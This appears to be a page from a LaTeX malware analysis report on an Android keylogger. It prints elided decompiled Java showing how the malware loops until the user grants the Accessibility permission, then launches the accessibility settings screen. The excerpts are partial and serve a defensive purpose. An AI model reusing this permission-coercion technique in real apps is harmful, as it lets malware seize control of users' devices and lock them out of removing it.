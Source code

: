 \documentclass[10pt,titlepage]{article}
\begin{document}
\newpage
\begin{lstlisting}[label=startwhilerequeststartsactivityaccessibility,caption=The Service \textit{naqsl.ebxcb.exu.StartWhileRequest} starts the \textit{naqsl.ebxcb.exu.Activity.ActivityAccessibility} frequently in a loop till the Accessibility permission was granted.,frame=tb]
    public void onHandleIntent(Intent intent) {
        [...]
        while (true) {
            [...]
            try {
                TimeUnit.MILLISECONDS.sleep((long) this.f438for);
            } catch (InterruptedException e) {
                e.printStackTrace();
            }
            [...]
            if (!inKeyguardRestrictedInputMode) {
                boolean z = intR.m449new(this);
                if (((!z && this.f593fddo.f474goto == 1) || (!z && contains)) && !intR.m449new(this)) {
                    try {
                        Intent intent2 = new Intent(this, ActivityAccessibility.class);
                        intent2.addFlags(268435456);
                        intent2.addFlags(1073741824);
                        startActivity(intent2);
                    [...]
                    if (i4 == 0 || i4 == 6) {
                        try {
                            startService(new Intent(this, ServiceToast.class));
                        } catch (Exception unused4) {
                    [...]
\end{lstlisting}


The Activity \textit{naqsl.ebxcb.exu.Activity.ActivityAccessibility} just launches the Acessibility Settings screen (see Listing \ref{activityaccessibilityoncreate}).


\begin{lstlisting}[label=activityaccessibilityoncreate,caption=The function \textit{naqsl.ebxcb.exu.Activity.ActivityAccessibility.onCreate() just launches the Activity associated with \textbf{android.settings.ACCESSIBILITY\_SETTINGS}},frame=tb]
public class ActivityAccessibility extends Activity {
    /* access modifiers changed from: protected */
    public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        try {
            Intent intent = new Intent("android.settings.ACCESSIBILITY_SETTINGS");
            intent.addFlags(131072);
            startActivity(intent);
\end{lstlisting}

The Keylogger of the malware is a very powerfull implementation that not only stores user input. It's very smart and takes control over the system and prevents the user from working against the malware.
\end{document}

